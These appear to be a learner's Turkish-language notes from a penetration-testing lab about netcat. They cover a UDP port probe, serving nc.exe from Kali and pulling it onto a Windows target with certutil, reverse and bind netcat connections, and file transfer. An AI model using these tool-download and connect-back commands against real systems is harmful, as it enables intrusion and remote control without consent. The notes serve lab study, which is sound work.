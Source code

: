 ## nc -nvu 10.0.2.5 445 --->> udp port'a baktık.


---
![[Pasted image 20240325114254.png]]
### Şimdi bizim de hedef sisteminde internete erişim yoksa karşı tarafa ben nasıl nc kuracağım.
#### /usr/share/windows-binaries

##### Burada alıp python3 -m httpserver ile karşıya göndereceğiz.
### 1. python -m httpserver
### 2. cert utıl
![[Pasted image 20240325114819.png]]
### certutil -urlcache -f http://10.0.2.4/nc.exe


---
### 1. Kali'de --> nc -nvlp 1234
## 2. Win --> nc.exe -nv 10.0.2.4 1234

## Bunu yapınca kali dinler Win bağlantıyı kurar başlatır.

### 1. Kali'de --> nc -nv 10.0.2.4 1234
## 2. Win --> nc.exe -nvlp 1234

###  Bunu yapınca win dinler kali konuşmayı başlatır.

---

### nc udp
![[Pasted image 20240325121213.png]]
![[Pasted image 20240325121306.png]]

---

## File Transfer Nc
#nc-ile-dosya-gonderme 
![[Pasted image 20240325123728.png]]
### Karşı taraf dinleyecek ve gelen ne olursa bunu  >> test.txt 'ye kaydedecek.
